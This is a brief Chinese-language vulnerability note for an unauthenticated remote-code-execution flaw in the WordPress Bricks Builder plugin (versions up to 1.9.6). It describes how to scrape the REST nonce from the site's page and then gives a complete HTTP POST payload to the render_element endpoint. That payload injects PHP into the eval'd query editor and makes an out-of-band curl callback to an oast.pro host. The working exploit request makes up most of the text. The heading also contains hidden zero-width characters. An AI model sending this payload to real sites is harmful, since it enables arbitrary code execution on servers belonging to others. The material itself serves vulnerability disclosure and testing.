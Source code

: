 ### 漏洞描述：

由于prepare_query_vars_from_settings()中的eval函数执行用户控制的输入，由于权限检查不当，未经身份验证的用户可利用该函数执行任意 PHP 代码。

首先使用GET方法访问/wordpress/根路径，在返回的HTML文件中查看bricksData参数内包含的wpRestNonce值，得到Nonce后构造数据包发送rce请求。

### 影响版本：‏‍‎‌‏‌‏‌‎‎‌‏‎‏‌‌‎‌‏‌‏‏‌‌‏‍‎‏‏‌‏‌‍​‎‌‏‎‏‎‍‍‏‎‎‏

WordPress Brick Builder <=1.9.6

### Payload：

```jsx
POST /wp-json/bricks/v1/render_element HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0
Connection: close
Content-Length: 401
Content-Type: application/json
Accept-Encoding: gzip, deflate

{
"postId": "1",
"nonce": "c5b5949**",
"element": {
"name": "container",
"settings": {
"hasLoop": "true",
"query": {
"useQueryEditor": true,
"queryEditor": "ob_start();echo curl cnc4ej5blq62an78ck6giyhcffmdr5t56.oast.pro;$output=ob_get_contents();ob_end_clean();throw new Exception($output);",
"objectType": "post"
}
}
}
}
```
